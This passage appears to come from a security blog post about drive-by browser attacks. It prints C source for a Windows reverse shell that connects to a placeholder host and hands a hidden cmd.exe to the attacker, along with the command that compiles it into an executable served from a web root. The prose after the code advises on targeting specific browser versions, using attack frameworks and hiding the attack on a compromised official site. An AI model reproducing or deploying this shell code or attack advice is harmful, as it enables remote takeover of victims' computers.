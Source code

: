 {% highlight c %}
/******** Var **********/
WSADATA wsaData;
SOCKET server;
struct hostent *host1;
struct sockaddr_in hax;
STARTUPINFO ini_process;
PROCESS_INFORMATION info_process;

int main(int count, char **args)
{
WSAStartup(MAKEWORD(2,2), &wsaData);
SOCKET Winsock;
char hostname[17]="mon.IP";
int portnum=80;

/***
[...] Configuration de la Socket avec WSASocket
***/
/** Connexion de la socket ***/
WSAConnect(Winsock,(SOCKADDR*)&hax,sizeof(hax),NULL,NULL,NULL,NULL);
/** Execution du shell ***/
memset(&ini_process,0,sizeof(ini_process));
ini_process.cb=sizeof(ini_process);
ini_process.dwFlags=STARTF_USESTDHANDLES;
ini_process.hStdInput= ini_process.hStdOutput = ini_process.hStdError = (HANDLE)Winsock;
CreateProcess(NULL,"cmd.exe",NULL,NULL,TRUE,CREATE_NO_WINDOW,NULL,NULL,&ini_process,&info_process);
return 0;
}
{% endhighlight %}


Compiled as:
{: .text-justify}

{% highlight c %}
#> i586-mingw-gcc -o /var/www/winini.exe malware.c -lws2_32
{% endhighlight %}


And the wider the scope of vulnerable applications integrated into the attack, the higher the number of potential victims. For example, let's say that the targets are the conspiratorial populations browsing only the versions of **Google Chrome** version **x.b.12345** to **y.t.1337** on **Windows**, are therefore excluded all **MAC**, **Linux**, **Firefox**, **Smartphone** users, etc.
{: .text-justify}

By digging a little into the current **tools** and **frameworks** (_**metasploit**, **SE-Toolkit**, **BEEF XSS**, **autopwn**, etc._) we quickly realize that a **LOT!** many things are possible, and without necessarily great expertise ...
{: .text-justify}

Stealth is also an essential factor, and this is again where technical quality makes the difference. The more well thought out and well hidden the attack, the less the user will suspect that there is something fishy and the less the attacked system and applications will try to defend itself. This is why finding a real vulnerable official site is generally a efficiency guarantee.
{: .text-justify}
